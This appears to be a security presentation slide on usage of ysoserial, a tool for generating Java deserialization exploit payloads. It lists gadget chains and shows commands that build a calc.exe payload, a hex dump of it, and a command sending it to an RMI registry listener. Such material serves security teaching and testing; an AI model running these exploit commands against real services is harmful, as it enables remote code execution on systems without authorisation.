

# ysoserial: Usage info

Tool and utilities for generating Java deserialization exploit payloads
Contains multiple gadget chain payloads
CommonsCollections1 (commons-collections)
CommonsCollections2 (commons-collections4)
Spring1 (spring-core, spring-beans)
Groovy1 (groovy)
Create payload to execute calc.exe using CommonsCollections1 chain:
$ java -jar ysoserial-0.0.1-all.jar CommonsCollections1 calc.exe | xxd | head -3
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
$ java -jar ysoserial-0.0.1-all.jar CommonsCollections1 calc.exe > payload.bin
Send exploit payload to RMI Registry listener:
$ java -cp ysoserial-0.0.1-all.jar ysoserial.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe